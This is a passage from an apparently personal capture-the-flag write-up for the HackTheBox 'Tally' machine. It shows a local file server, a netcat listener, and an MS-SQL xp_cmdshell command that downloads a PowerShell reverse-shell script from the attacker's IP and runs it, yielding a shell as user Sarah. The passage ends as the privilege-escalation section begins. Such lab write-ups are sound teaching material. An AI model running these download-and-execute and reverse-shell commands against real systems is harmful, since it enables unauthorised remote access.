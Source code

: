 ```bash
python3 -m http.server 80
```

Start the local listner:

```bash
rlwrap nc -lnvp 443
```

And finally, we can download and execute the script from the MS-SQL shell using:

```mssql
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.54/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

And we get a shell as `Sarah`:

![shell-33](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tally/img/shell-33.png)


The first command throws an exception, but afterwards everything works fine. 


## Privilege Escalation


After landing on the machine, I start looking for easy wins, like any privileges we may have:

![priv-33](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tally/img/priv-33.png)
